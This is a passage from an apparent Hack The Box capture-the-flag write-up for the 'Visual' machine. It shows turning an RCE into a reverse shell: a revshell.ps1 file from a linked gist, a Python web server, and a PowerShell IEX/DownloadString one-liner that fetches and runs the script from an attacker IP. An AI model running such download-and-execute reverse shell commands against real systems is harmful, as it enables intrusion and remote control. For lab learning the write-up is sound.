 Now we can exploit RCE!

Now we will **create a revshell.ps1 file**. I will use the following shell:

[https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

Change IP and port

![Untitled](Visual%20-%20Hack%20The%20Box%20-%20@lautarovculic%20bf81cf1043f146ce92b65a70eb7ce72a/Untitled%2020.png)

We leave the python web server ready

![Untitled](Visual%20-%20Hack%20The%20Box%20-%20@lautarovculic%20bf81cf1043f146ce92b65a70eb7ce72a/Untitled%2021.png)

Now, we will **remove the ping** we placed today and put the following (do your own IP and port modification):
powershell -c IEX(New-Object System.Net.WebClient).DownloadString('[http://10.10.14.251:8000/revshell.ps1](http://10.10.14.251:1234/revshell.ps1)')

![Untitled](Visual%20-%20Hack%20The%20Box%20-%20@lautarovculic%20bf81cf1043f146ce92b65a70eb7ce72a/Untitled%2022.png)
